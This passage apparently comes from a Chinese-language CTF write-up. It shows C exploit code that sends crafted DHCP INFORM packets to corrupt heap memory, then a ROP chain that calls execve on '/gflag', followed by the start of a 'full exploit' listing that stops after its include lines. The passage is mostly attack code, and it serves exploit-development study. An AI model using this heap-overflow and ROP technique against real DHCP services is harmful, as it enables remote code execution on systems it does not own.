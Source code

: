 ```c {hide=true}
    uint64_t ret_addr = stack_addr - 0x20;
    tmp_req.uid_type = ret_addr&0xff;
    *(uint64_t *)tmp_req.uid = ret_addr>>8;
    
    for (size_t i = 0; i < 2; i++) {
        sleep(3);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_inform_packet(buf, &buf_len, tmp_req);
        send_raw_pkt(buf, buf_len);
    }
    printf("[*] alloc chunk0, fake next.\n");

    // write rop
    uint64_t prdi = elf_base + 0x0000000000019d21,
             prsi = elf_base + 0x000000000001b954,
             prdx = elf_base + 0x00000000000bc28e;
    uint64_t execve_plt = elf_base + 0x0000000000019308;
    char *cmd = "/gflag";
    uint64_t rop[0x48/8] = {
        prdi, ret_addr + 0x38,
        prsi, 0,
        prdx, 0,
        execve_plt,
        0, 0
    };
    memcpy(&rop[7], cmd, strlen(cmd));

    memset(tmp_req.uid, 0, sizeof(tmp_req.uid));
    tmp_req.uid_type = *(uint8_t *)rop;
    memcpy(tmp_req.uid, (uint8_t *)rop + 1, 0x47);
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_inform_packet(buf, &buf_len, tmp_req);
    send_raw_pkt(buf, buf_len);

    free(buf);
}
```



> [!error]
>
> 如果执行`/usr/bin/xcalc`弹计算器会报错`Error: Can't open display: `

# 完整Exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <sys/types.h>
// socket
#include <sys/ioctl.h>
#include <sys/socket.h>
// addr
#include <netinet/in.h> // in_addr, sockaddr_in, ...
#include <arpa/inet.h>  // inet_addr, inet_ntoa, ...
// iface
#include <linux/if_packet.h> // sockaddr_ll
```